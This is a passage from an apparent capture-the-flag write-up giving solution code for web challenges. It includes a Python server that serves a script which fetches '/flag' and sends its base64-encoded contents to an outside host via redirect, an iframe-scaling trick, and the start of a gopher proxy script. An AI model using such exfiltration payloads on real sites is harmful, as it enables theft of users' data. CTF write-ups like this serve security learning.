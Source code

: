 ```python=
    sys.stdout.flush()
except KeyboardInterrupt:
  pass
finally:
  server.stop()
```

Then create a simple http server, which will exit immediately after processing one GET request:
```python=
#!/usr/bin/env python3
from http.server import HTTPServer, BaseHTTPRequestHandler

class S(BaseHTTPRequestHandler):
    def _set_headers(self):
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()

    def do_GET(self):
        msg = b"""
<script>
fetch('/flag').then(x=>x.text()).then(x=>location=`http://ginoah.tw?b=${btoa(x)}`).catch(x=>location=`http://ginoah.tw?b=${btoa(x)}`);
</script>
"""
        self._set_headers()
        self.wfile.write(msg)
        exit(0)

def run(server_class=HTTPServer, handler_class=S, addr="localhost", port=8000):
    server_address = (addr, port)
    httpd = server_class(server_address, handler_class)
    httpd.serve_forever()

if __name__ == "__main__":
    port = 38888 # challenge's port
    run(addr='0.0.0.0', port=port)

```

#### Solution 2: iFrame resize

```html
<iframe src="http://127.0.0.1:8000/flag" width="3000px" height="3000px" style="transform: scale(12);transform-origin:1050px 300px;">
```



### Metamon-Verse

Create a gopher proxy:
```python=
import socket
import time
import urllib.parse
import requests
import sys
from bs4 import BeautifulSoup

HOST = '0.0.0.0'
PORT = int(sys.argv[1])
URL = sys.argv[2]
KEY = sys.argv[3]
VALUE = int(sys.argv[4])

```